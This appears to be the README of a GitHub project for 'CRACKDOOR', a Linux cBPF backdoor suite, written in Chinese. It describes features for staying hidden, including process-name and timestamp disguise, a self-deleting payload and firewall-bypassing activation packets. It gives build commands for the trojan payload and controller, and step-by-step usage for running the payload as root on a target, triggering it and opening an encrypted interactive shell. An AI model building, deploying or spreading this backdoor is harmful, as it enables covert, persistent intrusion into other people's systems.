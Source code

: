 # CRACKDOOR 

:secret:*结合简单隐藏机制，支持TLS标准混合加密的cBPF后门套件*:no_entry:



## 支持特性

- 通信使用椭圆曲线密钥交换+AES-256加密+gmac消息验证码+额外防重放包序号（此功能在源码中可选，默认不开启）

- 交互式实时shell，可使用vim等命令行工具并查看实时回显，支持高亮与格式化输出，可根据目标机情况切换shell解释器类型

- cBPF filter接收多种网络层协议的激活指令包，通信自动重定向到合法端口，穿透防火墙拦截规则

- 自删除的payload文件

- 释放pidfile，通过文件互斥锁防多开，payload若崩溃或退出自动删除pidfile并解锁

- 进程名伪装

- payload文件时间戳伪装

- 自动杀死自身僵尸子进程

  

## 源码结构

`cdoor_sender.py`: 	发送激活数据包，激活cdoor功能。

`srv.c`: 	木马payload。

`cli.c`: 	木马控制端。

`bpf.txt`:	payload所使用的cBPF filter汇编代码。



## 安装依赖

### OPENSSL 1.1.x 

```bash
sudo apt install libssl-dev
```

或编译安装github release：

https://github.com/openssl/openssl/tags

### PYTHON MODULES

```bash
sudo pip3 install termcolor
```



## 编译

### 静态编译：（payload）

```bash
gcc srv.c -Os -s -Wl,-Bstatic -lutil -lcrypto -Wl,-Bdynamic -o crackdoor -Wl,--no-as-needed -ldl -lpthread
```

以上静态链接不包括glibc。（本机编译测试，payload大小约2.5mb）

### 动态编译：（控制端,带调试符号）

```bash
gcc cli.c -o client -lutil -crypto -ggdb -O0
```



## 使用

### 1.以root权限在目标机运行payload

### 2.使用sender发送激活包

```bash
sudo python3 sender.py --dst_ip 192.168.0.1 --dst_port 22 --pwd 1 --protocol ICMP
```

参数中可选择要连接的目标ip，目标端口，激活选项与激活包协议：

【1】目标端口（`--dst_port`）可以是任何合法端口，即使该端口已经有服务在运行

【2】激活选项（`--pwd`）决定要发送的激活密码，1为激活shell连接，2为删除目标机上payload设置的iptables规则，3命令payload回连主机，发送在线信号（单个字符‘a’）

【3】激活包协议可选择ICMP,UDP,TCP,SCTP四种；激活包结构与内容可在sender脚本中随时更改。

### 3.控制端连接目标机器

```bash
sudo ./client 192.168.0.1 22
```

输入`exit`指令退出交互shell环境。

（注：直接运行`ps aux`或`netstat`（无额外参数）这类有大量终端格式化字符输出的命令有几率导致控制端崩溃，重新打开控制端连接即可；如有需要，尽量使用文件重定向或加额外参数缩小输出，显示文本文件不会导致崩溃）

### 4.（可选）删除目标机与payload相关的iptables规则

```bash
sudo python3 sender.py --dst_ip 192.168.0.1 --dst_port 22 --pwd 2 --protocol SCTP
```

​        （注：应保持端口号与激活时一致。）

